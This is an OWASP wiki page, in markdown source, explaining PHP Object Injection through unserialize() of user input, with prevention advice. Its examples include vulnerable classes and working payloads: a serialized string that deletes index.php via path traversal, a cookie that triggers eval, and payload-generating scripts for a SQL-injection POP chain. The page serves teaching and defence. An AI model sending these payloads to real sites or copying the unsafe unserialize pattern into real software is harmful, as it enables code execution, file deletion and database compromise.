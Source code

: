 ```yaml
---

layout: col-sidebar
title: PHP Object Injection
author: Egidio Romano 
contributors: 
permalink: /vulnerabilities/PHP_Object_Injection
tags: vulnerability, PHP Object Injection
auto-migrated: 1

---
```


Author(s):
- Egidio Romano


[Vulnerabilities Table of Contents](ASDR_TOC_Vulnerabilities "wikilink")

## Description

PHP Object Injection is an application level vulnerability that could
allow an attacker to perform different kinds of malicious attacks, such
as [Code Injection](Code_Injection "wikilink"), [SQL
Injection](SQL_Injection "wikilink"), [Path
Traversal](Path_Traversal "wikilink") and [Application Denial of
Service](Application_Denial_of_Service "wikilink"), depending on the
context. The vulnerability occurs when user-supplied input is not
properly sanitized before being passed to the unserialize() PHP
function. Since PHP allows object serialization, attackers could pass
ad-hoc serialized strings to a vulnerable unserialize() call, resulting
in an arbitrary PHP object(s) injection into the application scope.

In order to successfully exploit a PHP Object Injection vulnerability
two conditions must be met:

  - The application must have a class which implements a PHP magic
    method (such as __wakeup or __destruct) that can be used to
    carry out malicious attacks, or to start a "POP chain".
  - All of the classes used during the attack must be declared when the
    vulnerable unserialize() is being called, otherwise object
    autoloading must be supported for such classes.

## Examples

**Example 1**

The example below shows a PHP class with an exploitable __destruct
method:

    class Example1
    {
       public $cache_file;

       function __construct()
       {
          // some PHP code...
       }

       function __destruct()
       {
          $file = "/var/www/cache/tmp/{$this->cache_file}";
          if (file_exists($file)) @unlink($file);
       }
    }

    // some PHP code...

    $user_data = unserialize($_GET['data']);

    // some PHP code...

In this example an attacker might be able to delete an arbitrary file
via a [Path Traversal](Path_Traversal "wikilink") attack, for e.g.
requesting the following URL:

    http://testsite.com/vuln.php?data=O:8:"Example1":1:{s:10:"cache_file";s:15:"../../index.php";}

**Example 2**

The example below shows a PHP class with an exploitable __wakeup
method:

    class Example2
    {
       private $hook;

       function __construct()
       {
          // some PHP code...
       }

       function __wakeup()
       {
          if (isset($this->hook)) eval($this->hook);
       }
    }

    // some PHP code...

    $user_data = unserialize($_COOKIE['data']);

    // some PHP code...

In this example an attacker might be able to perform a [Code
Injection](Code_Injection "wikilink") attack by sending an HTTP request
like this:

    GET /vuln.php HTTP/1.0
    Host: testsite.com
    Cookie: data=O%3A8%3A%22Example2%22%3A1%3A%7Bs%3A14%3A%22%00Example2%00hook%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D
    Connection: close

Where the cookie parameter "data" has been generated by the following
script:

    class Example2
    {
       private $hook = "phpinfo();";
    }

    print urlencode(serialize(new Example2));

**Example 3**

This last example shows how it is possible to perform a [SQL
Injection](SQL_Injection "wikilink") attack using a "POP chain", for
instance by leveraging a __toString method like this:

    class Example3
    {
       protected $obj;

       function __construct()
       {
          // some PHP code...
       }

       function __toString()
       {
          if (isset($this->obj)) return $this->obj->getValue();
       }
    }

    // some PHP code...

    $user_data = unserialize($_POST['data']);

    // some PHP code...

If the $user_data variable is an "Example3" object and it will be
treated like a string somewhere in the code, then its __toString
method will be called. Since this method will call the getValue method
of the object stored into the "obj" property, it's possible to set that
property to an arbitrary object, and execute its getValue method, if it
is accessible, otherwise its __call method will be called, if it is
defined. For the sake of ease, just think that when unserialize() is
called, the class below is available within the application scope (or
supported by autoloading):

    class SQL_Row_Value
    {
       private $_table;

       // some PHP code...

       function getValue($id)
       {
          $sql = "SELECT * FROM {$this->_table} WHERE id = " . (int)$id;
          $result = mysql_query($sql, $DBFactory::getConnection());
          $row = mysql_fetch_assoc($result);

          return $row['value'];
       }
    }

In this example an attacker might be able to perform a [SQL
Injection](SQL_Injection "wikilink") attack by sending a POST request
containing a "data" parameter generated by a script like this:

    class SQL_Row_Value
    {
       private $_table = "SQL Injection";
    }

    class Example3
    {
       protected $obj;

       function __construct()
       {
          $this->obj = new SQL_Row_Value;
       }
    }

    print urlencode(serialize(new Example3));

## Related [Controls](https://owasp.org/www-community/controls/)

  - [:Input Validation](:Input_Validation "wikilink")
  - [:Static Code Analysis](:Static_Code_Analysis "wikilink")

## Prevention

Do not use unserialize() function with user-supplied input, use JSON
functions instead.

## References

  - [PHP:
    unserialize](http://php.net/manual/en/function.unserialize.php)
  - [PHP: Magic
    Methods](http://php.net/manual/en/language.oop5.magic.php)
  - [PHP: Autoloading
    Classes](http://php.net/manual/en/language.oop5.autoload.php)
  - [PHP RFC: Secured
    unserialize()](https://wiki.php.net/rfc/secure_unserialize)
  - [Shocking News in PHP
    Exploitation](https://www.owasp.org/images/f/f6/POC2009-ShockingNewsInPHPExploitation.pdf)
    Stefan Esser, POC 2009
  - [Utilizing Code Reuse/ROP in PHP Application
    Exploits](https://www.owasp.org/images/9/9e/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)
    Stefan Esser, BlackHat USA 2010

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)